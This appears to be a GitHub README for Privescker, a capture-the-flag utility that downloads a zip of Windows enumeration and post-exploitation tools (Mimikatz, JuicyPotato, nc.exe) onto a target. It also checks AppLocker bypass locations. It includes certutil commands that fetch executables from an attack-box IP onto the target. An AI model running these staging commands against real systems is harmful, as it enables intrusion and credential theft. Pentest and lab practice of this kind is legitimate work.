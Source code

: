 # Privescker

**Advisory**

All the binaries/scripts/code of Privescker should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.
* * *

**What is Privescker?**

This was a tool I created to make life easier when doing CTF exercises on Windows machines. Initially I created Privescker to embed a number of binaries which would be dumped onto the target when executed. However, I thought a way of making it more customisable without recompiling every time you want a new binary I made this version posted here.

Privescker is a single binary that will download a single **zip** file containing all of your favourite Windows enumeration tools and scripts and then extract them on the target.

**Now you may think - why bother with the binary and just extract the zip yourself?**

It's not that simple. In a cmd shell it's a pain in the backside especially on older versions of Windows. PowerShell is doable but you may have instances where PowerShell is limited or not available at all.

**Other things it can do**

I have also built in the functionality to pass an argument and check AppLocker bypass locations to see whether you have write access to them. This is very handy when working on restrictive boxes.

```
privescker.exe -p
```

I have more planned for future released such as building your zip files and getting the latest versions of specific tools for you depending on user configs and other ideas. More to come on this in future.

**The manual way**

We all know the manual way of dumping files onto Windows is quite laborious, especially in older versions of Windows such as:
```
certutil -urlcache -f http://10.10.14.12:8000/enum.exe c:\users\public\enum.exe
```
Now multiply that by all the scripts, enum and post exploitation tools you want on the machine and it becomes time consuming.

**The Privescker way**

Once the privescker.exe binary is on the machine:
```
privescker.exe -u http://10.10.14.12:8000/enum-tools.zip -p c:\users\public
```

Then all your files you need to move to Windows will be dumped to the location you chose.

**Notes**

This is probably not advised on pentests as I'm sure AV will light up like a Christmas tree with all the different scripts and tools being extracted on the machine.

**Usage**

First you will need to get all your common and favourite tools and scripts and add them to a zip file on your attack machine (you can add subfolders within your zip if you please).

Personally here are some of the ones I have:
- accesschk.exe
- jaws.ps1
- nc.exe
- plink.exe
- PowerUp.ps1
- Seatbelt.exe
- SharpHound.exe
- SharpHound.ps1
- Sherlock.ps1
- Watson.exe
- winPEAS.bat
- winPEAS.exe
- JuicyPotato.exe
- PrintSpoofer.exe
- RunAsUser.exe
- Mimikatz.exe
- wget.exe

The choice is yours, add what you want.

The next step is to set up a webserver on your attack box, for example:
```
python -m SimpleHTTPServer
```

Now from your Windows shell, download privescker.exe;

```
certutil -urlcache -f http://10.10.14.12:8000/privescker.exe c:\users\public\privescker.exe
```

Leaving your webserver running, just execute privescker like this to get all your favourite tools.

```
privescker.exe -u http://10.10.14.12:8000/enum-tools.zip -p c:\users\public
```

That is literally it - small simple tool to make life easier with getting all your common enumeration, privesc and post exploitation tools on the machine for you in one go.

Hope others find it helpful.

Feel free to use the Release version or compile it yourself if you prefer.

:-)

**Screenshots**

Help menu:

![](/screenshots/help.png)

Print AppLocker writable bypass locations:

![](/screenshots/printpaths.png)

Executing the tool:

![](/screenshots/running.png)

Showing the output:

![](/screenshots/dir.png)






